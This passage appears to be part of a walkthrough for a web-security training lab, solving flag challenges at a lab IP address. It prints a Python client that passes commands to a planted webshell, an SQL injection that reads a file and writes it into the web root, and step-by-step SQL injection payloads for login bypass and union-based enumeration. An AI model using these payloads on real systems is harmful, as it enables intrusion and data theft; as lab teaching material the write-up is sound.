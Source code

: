 Execute the Python file like this `python3 script.py ls -la`

```python
import requests,sys;

command = " ".join(sys.argv[1:])
request = requests.Session()
response = request.get("http://46.101.94.35:31086/webshell.php?0=" + command)
print(response.text, end="")
```

Once you find the file, copy it into the web directory.

```sql
cn' union select "",load_file("/var/www/flag.txt"),"","" into outfile "/var/www/html/flagcopy.txt"-- -
```

And go to [http://46.101.94.35:31086/flagcopy.txt](http://46.101.94.35:31086/flagcopy.txt).

<figure><img src="../../../.gitbook/assets/flagcopy.png" alt=""><figcaption></figcaption></figure>

12. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

***

1. Bypass authentication

```sql
' or '1'='1'-- -
```

2. Check the number of columns queried

```sql
' order by 5-- -
```

3. Find the columns displayed on the web page

```sql
' union select 1,2,3,4,5-- -
```

4. Show the database version
